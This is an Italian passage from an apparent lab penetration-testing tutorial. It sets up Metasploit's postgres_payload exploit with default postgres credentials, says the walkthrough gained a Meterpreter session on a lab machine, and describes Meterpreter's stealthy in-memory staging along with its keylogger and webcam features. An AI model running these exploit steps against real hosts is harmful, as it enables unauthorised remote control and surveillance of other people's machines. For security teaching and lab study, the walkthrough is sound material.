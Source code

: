 Abbiamo quindi trovato una coppia user/password funzionante, torniamo all'exploit e settiamo le opzioni.

```
msf6 exploit(linux/postgres/postgres_payload) > set USERNAME postgres
USERNAME => postgres
msf6 exploit(linux/postgres/postgres_payload) > set PASSWORD postgres
PASSWORD => postgres
msf6 exploit(linux/postgres/postgres_payload) > set RHOSTS 192.168.56.102
RHOSTS => 192.168.56.102
msf6 exploit(linux/postgres/postgres_payload) > set LHOST 192.168.56.101
LHOST => 192.168.56.101
```

Lanciamo l'exploit e come vediamo dalla figura otteniamo una sessione di meterpreter, siamo quindi entrati in controllo della macchina target!

<img src="../imgs/postgres_exploit.png" width="800"> </br>

## Meterpreter

Facciamo ora una piccola digressione teorica su meterpreter, questo tool fornito sempre dagli sviluppatori di Rapid7, è un payload estensibile dinamicamente tramite injection in memoria di moduli detti stagers. L'estensione più essere comandata tramite messaggi dalla macchina remota via rete.
Nel dettaglio, meterpreter si avvia a stadi:
- Il target esegue il primo stager, di solito uno tra i moduli bind e reverse.
- Lo stager carica la DLL chiamata Reflexive in memoria. 
- Si inizializza il core di Meterpreter sul target e si crea una connessione TLS/1.0 con l'attaccante sulla socket predefinita
- Infine, si caricano le estensioni

Meterpreter si propone di essere furtivo, risiedendo esclusivamente in RAM, non creando nessun nuovo processo e utilizzando solo comunicazioni crittografate. Il tool è inoltre potente ed estensibile, prevede una lunga serie di funzionalità, quali un keylogger e dei moduli per accesso a periferiche di input quali microfoni e webcam. Vediamo una panoramica dei comandi di Meterpreter lanciando il comando `help`.

```
meterpreter > help

Core Commands
=============

    Command                   Description
    -------                   -----------
    ?                         Help menu
    background                Backgrounds the current session
    bg                        Alias for background
    bgkill                    Kills a background meterpreter script
    bglist                    Lists running background scripts
    bgrun                     Executes a meterpreter script as a background thread
    channel                   Displays information or control active channels
    close                     Closes a channel
    detach                    Detach the meterpreter session (for http/https)
    disable_unicode_encoding  Disables encoding of unicode strings
    enable_unicode_encoding   Enables encoding of unicode strings
    exit                      Terminate the meterpreter session
    guid                      Get the session GUID
    help                      Help menu
```